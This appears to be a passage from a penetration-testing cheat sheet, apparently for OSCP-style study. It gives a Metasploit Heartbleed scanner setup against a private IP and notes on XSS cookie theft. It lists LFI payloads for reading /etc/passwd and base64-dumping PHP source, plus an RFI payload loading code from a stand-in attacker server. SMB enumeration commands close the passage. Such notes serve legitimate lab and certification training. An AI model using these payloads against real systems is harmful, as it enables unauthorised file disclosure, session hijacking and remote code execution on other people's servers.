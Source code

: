 - Heartbleed exploit

    - ```
      use auxiliary/scanner/ssl/openssl_heartbleed
      set RHOSTS 192.168.3.212
      set verbose true
      run
      ```
- XXS

    - Session hijacking / Cookie theft. Steal cookie to get admin privilege

    - use xsser tool

- LFI

    - Bypassing php-execution

        - `http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index`

    - Bypassing the added .php and other extra file-endings

        - `http://example.com/page=../../../../../../etc/passwd%00`

        - `http://example.com/page=../../../../../../etc/passwd?`

    - folder that always exist

        - `/etc/hosts /etc/resolv.conf`

    - add %00jpg to end of files

        - `/etc/passwd%00jpg`

    - Refer this for more information

        - <https://sushant747.gitbooks.io/total-oscp-guide/local_file_inclusion.html>

        - <https://highon.coffee/blog/lfi-cheat-sheet/>

- RFI

    - `http://exampe.com/index.php?page=http://attackerserver.com/evil.txt`

### Other

[cewl — Creating wordlist from webpage](https://www.kali.org/tools/cewl/ "https://www.kali.org/tools/cewl/")

[EyeWitness](https://github.com/RedSiege/EyeWitness "https://github.com/RedSiege/EyeWitness") (take screenshots of websites)

[smbmap](https://www.kali.org/tools/smbmap/ "https://www.kali.org/tools/smbmap/")

```shell
smbmap -H <hostname> [-u <user> -p <pass>]
```

[smbclient](https://www.kali.org/tools/samba/#smbclient "https://www.kali.org/tools/samba/#smbclient")

```shell
smbclient -L //<a.b.c.d>/
```
